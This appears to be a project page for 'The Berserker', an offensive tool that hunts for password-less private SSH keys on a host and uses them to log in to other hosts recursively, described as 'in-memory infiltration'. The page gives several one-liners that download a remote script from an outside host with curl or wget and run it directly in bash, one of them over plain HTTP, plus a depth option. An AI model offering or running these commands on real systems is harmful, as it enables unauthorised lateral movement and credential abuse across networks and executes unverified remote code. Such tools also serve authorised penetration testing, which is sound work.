

<!-- Begin of ugly CSS navigation styling hack -->
<style>a[href$="/berserker/"] { font-weight: bold; }</style>
<!-- End of ugly CSS navigation styling hack -->



<!-- {:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef} -->

__The Berserker__ looks for password-less ssh-keys (such as `~/.ssh/id_rsa`) and then attempts to log in to as many hosts as possible. It repeats its action *recursively*. All this without writing or installing any data on any host. It's an *in-memory* infiltration only.

Use either one of these commands to start __The Berserker__:

```shell
export BS="$(curl -fsSL https://thc.org/ssh-it/bs)" && bash -c "$BS"
```

or:

```shell
export BS="$(wget -O- https://thc.org/ssh-it/bs)" && bash -c "$BS"
```

{:refdef: style="text-align: center;"}

{: refdef}

Read [how it works](how-it-works/) and [design choices](how-it-works/) we made.

## Tips & Tricks

* Press `CTRL-C` to interrupt the Berserker at any time.
* No data is stored on the origin host or any target host.
* A typical run completes within a few seconds.

The default is to stop after a depth of 8. Changing this to `BS_DEPTH=1` will make The Berserker log into the next host but not any farther.

```shell
export BS="$(curl -fsSL https://thc.org/ssh-it/bs)" && bash -c "BS_DEPTH=1 $BS"
```

## When HTTPS is not available

```shell
# Without HTTPS 
export BS="$(wget -O- --no-hsts http://nossl.segfault.net/bs)" && \
bash -c "$BS"
```

## Alpha Testing

THIS IS ALPHA RELEASE. PLEASE TEST AND REPORT BACK ANY BUGS OR SUGGESTIONS.
Many Thanks to:

* #!adm for testing and comments

## Contact


